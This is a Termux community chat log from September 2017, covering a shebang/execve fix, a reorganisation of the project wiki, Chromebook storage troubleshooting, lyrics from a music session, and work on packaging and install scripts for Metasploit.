2017-09-03 18:44:27	live_the_dream	?

2017-09-03 18:45:03	Church-	live_the_dream: Oracle finally shuttled it.

2017-09-03 18:45:20	live_the_dream	dead?

2017-09-03 18:46:45	live_the_dream	yesh

2017-09-03 19:06:33	live_the_dream	if we can get exeve.c to work on /bin/sh shebangs..

2017-09-03 19:07:36	rkeene	It's trivial to make that true

2017-09-03 19:12:45	live_the_dream	yeah

2017-09-03 19:12:47	live_the_dream	i know

2017-09-03 20:27:19	gitter	(AshleyNykiel) Package requests - lintian shellcheck tidy

2017-09-03 23:34:43	AndChat25625	Anyone here?

2017-09-04 02:09:17	live_the_dream	the lib-execve.so fix is really good

2017-09-04 02:10:18	live_the_dream	question is how we add it? libandroid-support.so ?

2017-09-04 02:11:12	live_the_dream	termux-fix-shebang shell ?

2017-09-04 05:33:04	frumpylava	Alright everybody, I just did a major revamp of the Termux Wiki. I moved everything from the main page into their own separate pages. The main page is now no longer a 3 kilometer long article containing everything.

2017-09-04 06:52:01	live_the_dream	i will have a look shortly

2017-09-04 06:52:35	live_the_dream	k that looks a hell of a lot better

2017-09-04 06:55:07	live_the_dream	frumpylava: rkeene's provided us with a technique that may change how we deal with shebangs entirely

2017-09-04 07:06:13	frumpylava	live_the_dream: hmm... looks interessting. And surpisingly simple.

2017-09-04 07:09:44	frumpylava	hmmm... is the line "exec -l "${BASH}" in the .bash_profile required? Would it work in zsh?

2017-09-04 07:11:36	live_the_dream	i just use LD_PREFLOAD=$PREFIX/lib/libasdf.so zsh from a shell commmand

2017-09-04 07:11:37	live_the_dream	i don't want it on all the time

2017-09-04 09:02:20	frumpylava	live_the_dream: are there any drawbacks to running it all the time?

2017-09-04 09:17:32	azarus	frumpylava: Thanks for the cava package!

2017-09-04 09:24:26	frumpylava	azarus: ;)

2017-09-04 09:34:16	gitter	(themastersunil) How to run .go file in termux

2017-09-04 09:36:17	live_the_dream	not many but they do exist....

2017-09-04 12:45:46	g093	Hello. I cannot find topics that used to be on the front page since it was rearranged, even when I use the Search Termux Wiki feature.

2017-09-04 12:46:07	g093	And what happened to our table of contents on the main page? And the pretty screenshots?

2017-09-04 12:52:01	gitter	(Auxilus) Glow ( @fornwall ? ) changed the structure , I really can't find link to metasploit-framework and postgresql..

2017-09-04 12:52:30	gitter	(Auxilus) If its gonna be in descriptions of playstore etc.. Then the structure is better than last one..

2017-09-04 12:55:42	gitter	(Auxilus) @sdrausty

2017-09-04 12:55:50	gitter	(Auxilus) We gotta add more FAQs

2017-09-04 12:58:14	g093	I cannot stand the captch...

2017-09-04 12:58:46	g093	It is distracting @Auxilus.

2017-09-04 12:59:13	gitter	(Auxilus) g093 = sdrausty?

2017-09-04 12:59:14	g093	FAQ storage, what is it in Termux?

2017-09-04 12:59:17	g093	y

2017-09-04 13:00:26	gitter	(Auxilus) 1Q.

2017-09-04 13:00:29	g093	Does Termux to out at three native filesystems, or are there more?

2017-09-04 13:00:49	g093	to out *top out

2017-09-04 13:00:50	gitter	(Auxilus) How do I access termux data from default system file manager

2017-09-04 13:01:15	g093	build a Termux addon

2017-09-04 13:01:43	gitter	(Auxilus) What are filesystems in termux @sdrausty??

2017-09-04 13:03:31	gitter	(sdrausty) In computing, a file system or filesystem is used to control how data is stored and retrieved.

2017-09-04 13:03:50	gitter	(sdrausty) https://duckduckgo.com/?q=filesystem @Auxilus

2017-09-04 13:04:23	gitter	(Auxilus) Yeah ik

2017-09-04 13:04:34	gitter	(Auxilus) But there are 3 filesystems in termux?

2017-09-04 13:05:38	gitter	(sdrausty) We have one in $HOME, another one in /sdcard and one or two on micro SD card. I'm not sure.

2017-09-04 13:06:32	gitter	(Auxilus) Ah, got it...

2017-09-04 13:06:35	gitter	(sdrausty) What are the filesystems, what kind are they?

2017-09-04 13:07:17	gitter	(Auxilus) But i think that answer is covered in `is termux complete linux environment `

2017-09-04 13:09:26	gitter	(sdrausty) Does anyone else need to load wiki.termux.com twice to get it to load completely in Chrome Browser?

2017-09-04 13:10:06	gitter	(Auxilus) I do

2017-09-04 13:10:18	gitter	(Auxilus) Thank God, I thought its my network problem

2017-09-04 13:10:34	gitter	(Auxilus) At first it gives connection refused

2017-09-04 13:10:40	gitter	(sdrausty) https://wiki.termux.com/wiki/FAQ doesn't mention filesystems @Auxilus yet.

2017-09-04 13:11:11	gitter	(Auxilus) Can you write it out?

2017-09-04 13:11:33	gitter	(Auxilus) Or paste the answer here, ill edit the wiki

2017-09-04 13:11:44	gitter	(sdrausty) wiki.termux.com does not work on first load correctly.

2017-09-04 13:12:49	gitter	(Auxilus) Yeah...

2017-09-04 13:14:17	gitter	(sdrausty) https://termux.com/storage.html does not mention filesystems or filesystem types @Auxilus

2017-09-04 13:15:18	gitter	(Auxilus) Let's just add it in wiki,

2017-09-04 13:19:06	gitter	(sdrausty) https://wiki.termux.com/wiki/FAQ#How_do_I_use_my_.F0.9F.8C.9F_storage_in_Termux.3F added

2017-09-04 13:21:46	gitter	(Auxilus) Crap, there is lot of things yet to be added,

2017-09-04 13:22:07	gitter	(Auxilus) Imma stay up tonight and update the wiki as far as I can...

2017-09-04 13:24:39	gitter	(sdrausty) It seems like the search feature at the wiki isn't working right either. Try to search for IDE.

2017-09-04 13:25:28	gitter	(Auxilus) Many things are not working...

2017-09-04 13:27:37	gitter	(sdrausty) Y @Auxilus

2017-09-04 13:34:27	gitter	(Auxilus) @fornwall the wiki is brocken, I can't edit it, it gives connection refuse

2017-09-04 13:35:04	frumpylava	The storage text is already at https://wiki.termux.com/wiki/Internal_and_external_storage please edit it there and link to it.

2017-09-04 13:36:19	gitter	(Auxilus) @sdrausty I was able to find IDE section by wiki search

2017-09-04 13:37:35	gitter	(sdrausty) was able *was not able

2017-09-04 13:38:12	gitter	(Auxilus) No, was able

2017-09-04 13:40:01	gitter	(Auxilus) @sdrausty I added redirect link for IDEs on main page..

2017-09-04 13:40:05	gitter	(sdrausty) Works now. Didn't work before. Had to reload wiki to get it to load correctly in Chrome Browser.

2017-09-04 13:40:49	gitter	(Auxilus) Reload problem is still there

2017-09-04 13:42:34	frumpylava	@Auxilus The page loads correctly for me and I don't see anything in the log files. Do you have a reproducible test case?

2017-09-04 13:43:31	gitter	(Auxilus) Disabling background data for Chrome can cause problem?

2017-09-04 13:44:02	gitter	(Auxilus) @frumpylava u Glow?

2017-09-04 13:44:19	gitter	(sdrausty) Loads on the first shot in mBrowser.

2017-09-04 13:45:10	gitter	(sdrausty) I liked the toc on the main page  :

2017-09-04 13:45:16	gitter	(sdrausty) frumpylava

2017-09-04 13:46:25	frumpylava	@Auxilus Yeah, I'm glow.

2017-09-04 13:46:33	gitter	(themastersunil) anybody can tell me, how to run ".go" files in termux???

2017-09-04 13:46:45	gitter	(themastersunil) Please, reply.m

2017-09-04 13:47:25	gitter	(sdrausty) Newest version of Chrome on Android.

2017-09-04 13:47:27	gitter	(Auxilus) @themastersunil there is package golang

2017-09-04 13:47:38	frumpylava	@sdrausty I'm not sure if I can re enable the table of contents specifically, but it would just have 3 entries: Addons, How to use Termux and Contacts. The whole page is now supposed to be the table of contents.

2017-09-04 13:48:02	gitter	(Auxilus) You gonna add link to wiki in descriptions?

2017-09-04 13:49:56	frumpylava	@sdrausty If you really want to create a Table of contetns you must do it on a separate page. There you can structure all pages like a Manual. But for the main page we should take inspiration from the archwiki and only link to big sections that branch into further sections.

2017-09-04 13:50:48	frumpylava	In my email today I asked for the wiki to be put into the descriptions and on termux.com, but it is @fornwall who controls those, so we'll have to wait.

2017-09-04 13:52:04	gitter	(Auxilus) If we add wiki link, we gonna protect the pages? Cz i see right now all pages are unprotected

2017-09-04 13:52:29	gitter	(sdrausty) https://www.emacswiki.org is not bashful to have a mile long front page frumpylava:

2017-09-04 13:53:21	gitter	(Auxilus) https://wiki.termux.com/wiki/Perl

2017-09-04 13:53:33	gitter	(Auxilus) There is only one line in whole page

2017-09-04 13:53:46	gitter	(Auxilus) Maybe we can delete the page..

2017-09-04 13:54:24	gitter	(sdrausty) @Auxilus we should add info to this page.

2017-09-04 13:54:33	frumpylava	@Auxilus, I'd be for expanding the page, rather than deleting it.

2017-09-04 13:54:48	gitter	(Auxilus) Okay

2017-09-04 13:54:53	gitter	(Auxilus) Ill look for info

2017-09-04 13:55:43	frumpylava	I actually like the emacswiki's main page, And if we create more important Pages they will definetly be linked on the Main Page as well.

2017-09-04 13:58:00	frumpylava	And I agree with protecting a Pages. At least a few of the importnant ones, most importantly the Main Page.

2017-09-04 13:59:11	gitter	(sdrausty) https://github.com/termux/termux-packages/issues?utf8=✓&q=Perl%20cpan

2017-09-04 14:01:47	frumpylava	But I also want to encourage people to contribute, so I don't want to protect most pages. If I there are spammers I can easily remove all of their contributions at once ( I aldready had do that once)

2017-09-04 14:02:19	gitter	(Auxilus) I added some info ( just a lil copy paste)

2017-09-04 14:02:26	gitter	(Auxilus) Is this correct? https://wiki.termux.com/wiki/Perl

2017-09-04 14:05:19	g093	$ apt install cpan

2017-09-04 14:05:19	g093	Reading package lists... Done

2017-09-04 14:05:19	g093	Building dependency tree

2017-09-04 14:05:19	g093	Reading state information... Done

2017-09-04 14:05:19	g093	E: Unable to locate package cpan

2017-09-04 14:05:55	gitter	(Auxilus) Oops

2017-09-04 14:05:57	gitter	(Auxilus) Wait

2017-09-04 14:08:05	gitter	(Auxilus) g093

2017-09-04 14:08:13	gitter	(Auxilus) It comes with perl package

2017-09-04 14:08:21	gitter	(Auxilus) Ill coreect it right away...

2017-09-04 14:10:12	g093	man cpan

2017-09-04 14:10:18	g093	info cpan

2017-09-04 14:10:48	g093	For more details run

2017-09-04 14:10:48	g093	y

2017-09-04 14:10:49	gitter	(Auxilus) See now..

2017-09-04 14:11:13	g093	$ perldoc -F /data/data/com.termux/files/usr/bin/cpan

2017-09-04 14:12:27	g093	$ dpkg -L perl |grep cpan

2017-09-04 14:12:27	g093	/data/data/com.termux/files/usr/share/man/man1/cpan.1

2017-09-04 14:12:27	g093	/data/data/com.termux/files/usr/bin/cpan

2017-09-04 14:13:17	gitter	(Auxilus) Is it working or not?

2017-09-04 14:14:30	gitter	(Auxilus) F-droid link for termux:task is broken

2017-09-04 14:14:45	gitter	(Auxilus) https://f-droid.org/packages/com.termux.task/

2017-09-04 14:16:29	frumpylava	@Auxilus I just fixed those

2017-09-04 14:17:37	gitter	(Auxilus) Link?

2017-09-04 14:17:57	gitter	(Auxilus) The link above give 'not found in this repo' erroe

2017-09-04 14:18:55	frumpylava	yeah. the links were wrong.

2017-09-04 14:19:05	frumpylava	It's actually com.termux.tasker

2017-09-04 14:35:31	gitter	(Auxilus) frumpylava : we need to add descriptions for each tool?

2017-09-04 14:35:34	gitter	(Auxilus) https://wiki.termux.com/wiki/Termux:API

2017-09-04 14:42:06	frumpylava	@Auxilus It would be nice to have at least a brief description of each command, even if we just copy the -h outputs. Some commands, like termux-location or termux-notification would benefit from detailed descriptions and maybe examples.

2017-09-04 14:43:01	gitter	(Auxilus) Okay, ill add 'em right away

2017-09-04 14:43:44	gitter	(Auxilus) Add description on API page or create sep page for each of em?

2017-09-04 14:46:06	frumpylava	@Auxilus Maybe you can use the formating style of the main page to add a brief (1 line) description to all of them. Then we can add pages for only the big commands

2017-09-04 14:47:17	gitter	(Auxilus) K

2017-09-04 14:47:34	frumpylava	Should I make an example?

2017-09-04 14:48:35	gitter	(Auxilus) See if

2017-09-04 14:48:37	gitter	(Auxilus) Sure..

2017-09-04 14:50:14	gitter	(Auxilus) I think I got it..

2017-09-04 14:51:42	frumpylava	@Auxilus I'd just go with "; termux-battery-status:Get the status of the device battery."

2017-09-04 14:52:25	gitter	(Auxilus) Okay,

2017-09-04 14:53:46	frumpylava	Then we can add the link for termux-location and other less straight forward commands.

2017-09-04 14:54:46	rods-tab3	long press new session undocumented / ditto 'safe' session

2017-09-04 14:55:06	gitter	(Auxilus) Yeah..

2017-09-04 14:55:19	gitter	(Auxilus) Check if I'm doing right https://wiki.termux.com/wiki/Termux:API#Current_API_implementations

2017-09-04 14:56:05	gitter	(Auxilus) We need to create page for termux-dialog also

2017-09-04 14:56:17	gitter	(Auxilus) It has extra params

2017-09-04 14:56:55	gitter	(Auxilus) frumpylava : can you create page for those big api commands?

2017-09-04 14:58:07	frumpylava	I could, but I actually have to go in a few minutes. You can create pages yourself if you're worried about permissions.

2017-09-04 14:58:44	frumpylava	The format looks good now, altough you can remove the [[ ]] to remove the red links for those commands that don't get their own pages.

2017-09-04 14:58:45	gitter	(Auxilus) Okay, ill do it

2017-09-04 15:17:22	gitter	(Auxilus) frumpylava : done..

2017-09-04 15:18:21	frumpylava	@Auxilus Cool. Looks good.

2017-09-04 15:19:09	frumpylava	Thanks for your contributions @Auxilus and @sdrausty

2017-09-04 15:51:09	rkeene	Let me know if there's anything I need to do to push the execve fix forward

2017-09-04 15:51:16	frumpylava	@Auxilus If you want the screenshots in "Touch Keyboard" to be bigger you'll need to recreate them with a higher resolution.

2017-09-04 15:51:55	gitter	(Auxilus) Okay

2017-09-04 15:52:05	gitter	(Auxilus) Ill  create new screenshots

2017-09-04 15:52:20	frumpylava	You can replace the files here: https://wiki.termux.com/wiki/File:Extra_keys_view.png by clicking "Upload a new version of this file"

2017-09-04 15:52:33	gitter	(Auxilus) K

2017-09-04 15:54:07	gitter	(Auxilus) See now...

2017-09-04 16:03:00	rods-tab3	the wiki is duplicating info from https://termux.com/help.html

2017-09-04 16:04:17	gitter	(Auxilus) Btw fyi both wikis are hosted by @fornwall

2017-09-04 16:04:40	gitter	(Auxilus) And that was wiki before

2017-09-04 16:05:10	frumpylava	@Auxilus much better.

2017-09-04 16:06:29	gitter	(Auxilus) Do we have any uncontributed pages?

2017-09-04 16:10:22	frumpylava	@Auxilus NodeJS#Package_Management

2017-09-04 16:11:13	gitter	(Auxilus) I don't habe much of knowledge about it,

2017-09-04 16:11:17	gitter	(Auxilus) Is that npm?

2017-09-04 16:12:03	frumpylava	@Auxilus I think so.

2017-09-04 16:17:43	gitter	(sdrausty) frumpylava : You're welcome; I want to see Termux 💪🙂 go mainstream...

2017-09-04 16:18:23	gitter	(Auxilus) Ye, me too

2017-09-04 16:18:41	gitter	(Auxilus) I want termux to surpass terminal Emulator

2017-09-04 16:19:17	gitter	(sdrausty) Everyone has an Android, well almost everyone does. Termux can be a great reason to get Android!

2017-09-04 16:19:35	gitter	(sdrausty) @Auxilus I think it has.

2017-09-04 16:39:23	quim	hi, anyone using termux on a chromebook?

2017-09-04 16:40:14	quim	I have problems with the keyboard layout (mine is in spanish and termux use US), and with permisions

2017-09-04 16:41:01	quim	I can't acces the Downloads folder via /storage/emulated/0/Download

2017-09-04 16:41:13	quim	the folder is owned by root

2017-09-04 16:43:17	msuriar	quim: the keyboard issue is https://github.com/termux/termux-app/issues/250

2017-09-04 16:44:39	msuriar	from poking around, it impacts all chrome apps which use raw keyboard access rather than the android IME

2017-09-04 16:44:44	gitter	(sdrausty) quim: try `/sdcard/Download/`

2017-09-04 16:44:49	msuriar	*android-on-chrome

2017-09-04 16:56:11	rkeene	You also have to do "termux-storage" to grant permission

2017-09-04 17:02:54	quim	yes I already executed termux-setup-storage

2017-09-04 17:04:30	quim	 /sdcard does not exist

2017-09-04 17:08:24	gitter	(sdrausty) I am on Android, so this probably means `/sdcard` is OS specific. Did you grant storage permissions in App>Termux quim?

2017-09-04 17:09:56	gitter	(sdrausty) https://cloud.githubusercontent.com/assets/27742457/26831688/14e4a358-4a9b-11e7-9ee5-943620529168.png

2017-09-04 17:10:44	quim	yes the permisions are ok

2017-09-04 17:11:00	quim	that's why i'm confused

2017-09-04 17:12:23	gitter	(sdrausty) Might be Chrome specific, might not be...

2017-09-04 17:12:54	gitter	(sdrausty) `touch file` What do you get quim?

2017-09-04 17:14:52	quim	No problem, I can access almost all the filesystem correctly

2017-09-04 17:16:32	quim	https://imgur.com/gHfFBhr

2017-09-04 17:18:39	gitter	(sdrausty) `touch ~/storage/self/file` &&  `touch ~/storage/emulated/file`

2017-09-04 17:21:07	quim	https://imgur.com/ivkapqG

2017-09-04 17:21:13	quim	not working as expected

2017-09-04 17:21:27	rkeene	FWIW, I use it on ChromeOS

2017-09-04 17:22:21	gitter	(sdrausty) You should be able to create all three files. But for some reason you can't.

2017-09-04 17:22:23	rkeene	/storage/emulated/0/   not /storage/emulated/

2017-09-04 17:23:16	gitter	(sdrausty) Are you sure you have activated storage in App>Termux?

2017-09-04 17:23:35	gitter	(sdrausty) Like here https://cloud.githubusercontent.com/assets/27742457/26831688/14e4a358-4a9b-11e7-9ee5-943620529168.png

2017-09-04 17:24:51	quim	rkeene: shit, my fault, now it works

2017-09-04 17:24:54	quim	ty all

2017-09-04 17:25:14	gitter	(sdrausty) And read and reread https://termux.com/storage

2017-09-04 17:25:35	quim	now i'll be able to ssh to termux to solve the keyboard problem

2017-09-04 20:18:22	g093	$ play-audio Lucky\ Man\ -\ Emerson\ Lake\ \&\ Palmer\ \(Original\ Album\ Version\)-Fn_1d_DUE08.mkv

2017-09-04 20:19:22	gitter	(sdrausty) feathers

2017-09-04 20:22:51	gitter	(sdrausty) 🏇 horses awaiting

2017-09-04 20:26:48	g093	$ play-audio Led\ Zeppelin\ -\ Stairway\ To\ Heaven\ \(NOT\ LIVE\)\ \(Perfect\ Audio\)-IS6n2Hx9Ykk.mkv

2017-09-04 20:28:04	g093	with a word

2017-09-04 20:28:18	g093	dvr

2017-09-04 20:29:23	gitter	(sdrausty) EMP

2017-09-04 20:33:14	g093	$ play-audio 2001/2001\ Space\ Odyssey\ -\ Blue\ Danube-muPNlnm_i44.mkv

2017-09-04 20:33:48	g093	2001 - A Space Odyssey - The Dawn of Man-ypEaGQb6dJk.mkv

2017-09-04 20:36:29	g093	$ play-audio The\ Jimi\ Hendrix\ Experience\ -\ Hey\ Joe\ \(Official\ Audio\)-rXwMrBb2x1Q.mkv

2017-09-04 20:36:49	g093	any FAQz/?

2017-09-04 20:42:25	g093	https://wiki.termux.com/wiki/Main_Page#toc

2017-09-04 20:48:56	gitter	(sdrausty) flounder floundering

2017-09-04 20:49:46	gitter	(sdrausty) not mainstream

2017-09-04 20:51:08	gitter	(sdrausty) https://duckduckgo.com/?q=burning+man

2017-09-04 20:53:58	g093	$ play-audio pink/Pink\ Floyd\ -\ The\ Dark\ Side\ of\ the\ Moon\ -\ Breathe\ \(FLAC\)-fZ_YAK0NSX0.

2017-09-04 20:54:29	g093	inhale

2017-09-04 20:55:59	g093	done?

2017-09-04 20:57:16	g093	And when at last the work is done

2017-09-04 20:57:16	g093	Don't sit down, it's time to dig another one

2017-09-04 20:58:18	g093	$ youtube-dl https://m.youtube.com/watch?v=hnjeMwxFuBA

2017-09-04 20:58:37	g093	[download] Destination: Jonny Diaz - Breathe - Official Lyric Video-hnjeMwxFuBA.f137.mp4

2017-09-04 21:01:11	g093	$ play-audio pink/Pink\ Floyd\ -\ Wish\ You\ Were\ Here-IXdNnw99-Ic.mkv

2017-09-04 21:09:09	o093	$ play-audio Ground\ Control\ to\ Major\ Tom-AFks9A9TCF0.mkv

2017-09-04 21:09:39	live_the_dream	22s

2017-09-04 21:10:20	o093	au

2017-09-04 21:10:47	o093	au^au

2017-09-04 21:11:40	o093	floating

2017-09-04 21:13:46	o093	$ play-audio Carly\ Simon\ -\ You\'re\ So\ Vain\ \(with\ lyrics\)-b6UAYGxiRwU.m

2017-09-04 21:15:24	o093	Oh, you had me several years ago

2017-09-04 21:15:24	o093	When I was still naive

2017-09-04 21:15:24	o093	Well, you said that we made such a pretty pair

2017-09-04 21:15:27	o093	And that you would never leave

2017-09-04 21:15:30	o093	But you gave away the things you loved

2017-09-04 21:15:34	o093	And one of them was me

2017-09-04 21:15:37	o093	I had some dreams, they were clouds in my coffee

2017-09-04 21:15:37	o093	Clouds in my coffee, and

2017-09-04 21:16:59	gitter	(sdrausty) And your horse, naturally, won

2017-09-04 21:22:55	g093	play atmosphericNuclearTests

2017-09-04 21:23:37	g093	https://m.youtube.com/results?q=atmospheric%20nuclear%20test&sm=1

2017-09-04 21:23:57	g093	EMP

2017-09-04 21:25:38	gitter	(sdrausty) King Jong

2017-09-04 21:27:42	g093	$ play-audio Carly\ Simon\ -\ You\'re\ So\ Vain\ \(with\ lyrics\)-b6UAYGxiRwU.mkv

2017-09-04 21:30:27	g093	live_the_drean: 'ave u seen an eclipse?

2017-09-04 21:33:06	g093	$ play-audio Uriah\ Heep\ -\ Lady\ * tnx

2017-09-04 21:33:28	g093	dvr at mu'and

2017-09-04 21:33:31	g093	!

2017-09-04 21:34:51	g093	lyrics:lady in black

2017-09-04 21:35:19	g093	She came to me one morning

2017-09-04 21:35:19	g093	One lonely Sunday morning

2017-09-04 21:35:19	g093	Her long hair flowing in the mid-winter wind

2017-09-04 21:36:34	g093	Reduces men to animals

2017-09-04 21:36:40	g093	So easy to begin and yet impossible to edny

2017-09-04 21:37:00	g093	edny *end

2017-09-04 21:40:50	o093	Reduces men to animals

2017-09-04 21:40:50	o093	So easy to begin and yet impossible to end

2017-09-04 21:41:52	g093	$ play-audio Uriah\ Heep\ -\ Lady\

2017-09-04 21:41:52	g093	Uriah Heep - Lady In Black Live-PZ2MGb5CpHM.mkv  Uriah Heep - Lady in black-hHDZ5rYiMz0.mkv

2017-09-04 21:41:52	g093	$ play-audio Uriah\ Heep\ -\ Lady\ *

2017-09-04 21:43:21	g093	$ play-audio eagles/Eagles\ -\ Hotel\ California\ \(Live.\ At\ The\ Capital\ Centre\,\ 1977\)-R80Q_FQGKj4.mkv

2017-09-04 21:43:36	g093	no 1 az ?s 

2017-09-04 21:44:00	g093	i guess they can read

2017-09-04 21:44:20	g093	cool wind

2017-09-04 21:44:37	g093	in the distance ..

2017-09-04 21:51:02	g093	$ play-audio Simon\ \&\ Garfunkel\ -\ The\ Sounds\ of\ Silence\ \(Audio\)-4fWyzwo1xg0.webm

2017-09-04 21:51:34	g093	Hello darkness...

2017-09-04 21:52:07	g093	My old fre

2017-09-04 21:54:08	g093	burning man https://duckduckgo.com/?q=+burning+man

2017-09-04 21:55:17	g093	Hello darkness my old friend...

2017-09-04 21:55:54	g093	the sounds of...

2017-09-04 21:57:22	o093	The people, they bowed.

2017-09-04 22:14:55	gitter	(sdrausty) Bowed to whom?

2017-09-04 22:18:40	g093	$ play-audio Grateful\ Dead\ -\ Drums\ -\ 10_31_80\ -\ Radio\ City\ Music\ Hall\ \(OFFICIAL\)-hqvjgFmSvho.mp4

2017-09-04 22:53:55	timwr	hi all, does anyone know how bootstrap-aarch64.zip gets built?

2017-09-04 22:54:09	timwr	a github link to the code would be fantastic

2017-09-04 23:17:42	o093	%eere

2017-09-05 00:35:43	gitter	(Auxilus) @sdrausty

2017-09-05 00:35:58	gitter	(Auxilus) You put table of contents on main page?

2017-09-05 01:15:25	frumpylava	@sdrausty @Auxilus I think I figured out what the problem with the wiki not loading is. The mobile view extension is currently broken. I've disabled it until it gets updated for the current version of mediawiki (which I updated yesterday)

2017-09-05 01:15:40	frumpylava	Can you test if it works now?

2017-09-05 01:16:17	gitter	(Auxilus) I have desktop view enabled

2017-09-05 01:16:30	gitter	(Auxilus) How do i change it back to mobile view?

2017-09-05 01:17:23	gitter	(Auxilus) ?

2017-09-05 01:19:07	frumpylava	@Auxilus You can't now. Because I've removed it. Because it didn't work

2017-09-05 01:19:34	gitter	(Auxilus) K

2017-09-05 01:28:10	gitter	(Auxilus) I added some info in NodeJs package management

2017-09-05 01:28:19	gitter	(Auxilus) Check if its accurate

2017-09-05 01:44:09	frumpylava	hmm I think it's npm install -g in order to install it globally

2017-09-05 01:47:25	gitter	(Auxilus) Fixed

2017-09-05 01:49:57	gitter	(Auxilus) frumpylava:addon section should be after how to use section

2017-09-05 02:22:10	gitter	(Auxilus) frumpylava : Modern skin is better than vector , i think..

2017-09-05 02:22:30	gitter	(Auxilus) Modern skin shows code better..

2017-09-05 02:26:35	frumpylava	@Auxilus hmm let me try that.

2017-09-05 02:27:30	gitter	(Auxilus) Sure.. The code block in modern skin is better than vector..

2017-09-05 02:27:30	frumpylava	hmm... While I agree that it shows code better, it's also hideous.

2017-09-05 02:28:07	frumpylava	I'll put back Vector, but I'll override the code stylesheet.

2017-09-05 02:28:07	gitter	(Auxilus) Yeah :p thats the other part

2017-09-05 02:28:33	gitter	(Auxilus) Can you implement modern's code block in vector?

2017-09-05 02:29:14	gitter	(Auxilus) frumpylava im getting automatic abort on my script at Metasploit wiki...

2017-09-05 02:29:33	gitter	(Auxilus) Can you see whats the error? https://github.com/Auxilus/Auxilus.github.io/blob/master/metasploit.sh

2017-09-05 02:30:42	frumpylava	Oh yeah, I've been meaning to ask that. Something weird is going on the metasploit page.

2017-09-05 02:31:15	gitter	(Auxilus) Is it due to missing -y flag at apt  update?

2017-09-05 02:31:36	gitter	(Auxilus) Manual installation is correct, ive tested it bunch of times..

2017-09-05 02:32:50	timwr	yes you need -y flag in apt-get

2017-09-05 02:33:03	timwr	in install, not update

2017-09-05 02:33:13	timwr	Auxilus: great stuff btw :)

2017-09-05 02:33:23	gitter	(Auxilus) Ty man..

2017-09-05 02:33:37	timwr	can anyone answer this: how does bootstrap-aarch64.zip get created?

2017-09-05 02:34:13	timwr	this one: https://github.com/termux/termux-app/blob/357b17e972e706bc166cfbb98b065c8c5c208b2d/app/src/main/java/com/termux/app/TermuxInstaller.java#L188

2017-09-05 02:34:21	timwr	how do I build it myself?

2017-09-05 02:36:17	frumpylava	@Auxilus Code blocks should be better now.

2017-09-05 02:36:35	frumpylava	You can actually override Stylesheets at https://wiki.termux.com/wiki/MediaWiki:Common.css

2017-09-05 02:36:47	gitter	(Auxilus) Lemme check..

2017-09-05 02:37:10	gitter	(Auxilus) Can anyone try out the script?

2017-09-05 02:37:49	gitter	(Auxilus) frumpylava :wiki is taking too long to load

2017-09-05 02:38:26	timwr	Auxilus: can we get the grpc patch merged into master?

2017-09-05 02:38:33	timwr	like we did with network_interface

2017-09-05 02:38:42	timwr	or is too crufty?

2017-09-05 02:40:27	gitter	(Auxilus) timwr : you mean apply patch and push it to main grpc?

2017-09-05 02:42:05	frumpylava	timwr: fornwall create bootstrap-*.zip with a custom java script. It used to be available somewhere, but the old link is dead.

2017-09-05 02:42:10	gitter	(Auxilus) frumpylava : looks better now

2017-09-05 02:54:35	timwr	fornwall: I'd love to see that script :)

2017-09-05 02:56:03	gitter	(Auxilus) timwr

2017-09-05 02:56:13	gitter	(Auxilus) My script looks brocken

2017-09-05 02:56:30	gitter	(Auxilus) Can you test it out and see where the errors at?

2017-09-05 02:59:15	timwr	ok

2017-09-05 02:59:19	timwr	can you apt-get install -y?

2017-09-05 02:59:31	timwr	ok you got it

2017-09-05 03:00:01	timwr	why don't you git clone though?

2017-09-05 03:00:09	timwr	it's quicker using the tar.gz?

2017-09-05 03:00:12	gitter	(Auxilus) `apt-get` instead of `apt`!?

2017-09-05 03:00:21	timwr	either works

2017-09-05 03:00:30	gitter	(Auxilus) Yeah using tar.gz tooks less time

2017-09-05 03:00:31	timwr	I see you've added -y

2017-09-05 03:00:33	timwr	cool OK

2017-09-05 03:00:38	timwr	can you still msfupdate after though?

2017-09-05 03:01:32	gitter	(Auxilus) No msfupdate doesn't work in termux

2017-09-05 03:01:38	timwr	why not?

2017-09-05 03:01:49	timwr	at least with git you can pull then gem install bundler and bundle

2017-09-05 03:02:09	timwr	git pull origin master && gem install bundler && bundle

2017-09-05 03:02:24	gitter	(Auxilus) Yeah  u

2017-09-05 03:02:46	gitter	(Auxilus) But cloning takes more time than using tar.gz

2017-09-05 03:03:05	gitter	(Auxilus) Also those are releases, so less bugs

2017-09-05 03:03:23	timwr	I see

2017-09-05 03:03:46	timwr	you just know the next question/issue everyone will complain about it not being able to update

2017-09-05 03:04:29	gitter	(Auxilus) You trying manual installation or automatic installation?

2017-09-05 03:05:04	timwr	honestly I'd rather just update the bootstrap zip so that it's already installed

2017-09-05 03:05:18	timwr	but yeah automatic is best

2017-09-05 03:05:28	timwr	or fix apt-get install metasploit-framework within termux

2017-09-05 03:06:05	gitter	(Auxilus) Thats a long shot btw

2017-09-05 03:08:00	timwr	surely we could have https://github.com/termux/termux-packages/blob/master/packages/ack-grep/build.sh

2017-09-05 03:08:03	timwr	but for metasploit

2017-09-05 03:08:06	gitter	(Auxilus) timwr:check this pr https://github.com/grpc/grpc/pull/12385

2017-09-05 03:08:17	timwr	awesome

2017-09-05 03:09:09	gitter	(Auxilus) timwr : I think we can, I'll work on it, but i dont have docker to test it..

2017-09-05 03:09:25	timwr	I don't think they will accept taht

2017-09-05 03:09:30	timwr	because it looks like it will break windows

2017-09-05 03:09:46	gitter	(Auxilus) Hmm, yeah

2017-09-05 03:10:15	timwr	can we do `if termux` somehow?

2017-09-05 03:10:21	timwr	not sure how you can detect termux

2017-09-05 03:11:09	gitter	(Auxilus) ENV[PREFIX] can help ?

2017-09-05 03:11:25	gitter	(Auxilus) We can see if it matches termux's $PREFIX

2017-09-05 03:12:22	timwr	perfect

2017-09-05 03:12:22	gitter	(Auxilus) We need to metasploit-framework dir structure to get it installed as `apt install metasploit-framework `

2017-09-05 03:12:25	timwr	I commented

2017-09-05 03:12:51	timwr	can build.sh just git clone it?

2017-09-05 03:13:25	gitter	(Auxilus) Yeah but

2017-09-05 03:13:37	gitter	(Auxilus) It will not install Metasploit as a command

2017-09-05 03:13:46	timwr	hmm

2017-09-05 03:13:47	gitter	(Auxilus) We'll have to do `. /msfconsole `

2017-09-05 03:14:04	gitter	(Auxilus) I'll see if i can get it run as msfconsole directly

2017-09-05 03:14:50	gitter	(Auxilus) Maybe ln the command to $PREFIX/bin

2017-09-05 03:15:06	gitter	(Auxilus) But still looks like it'll broke dir structure

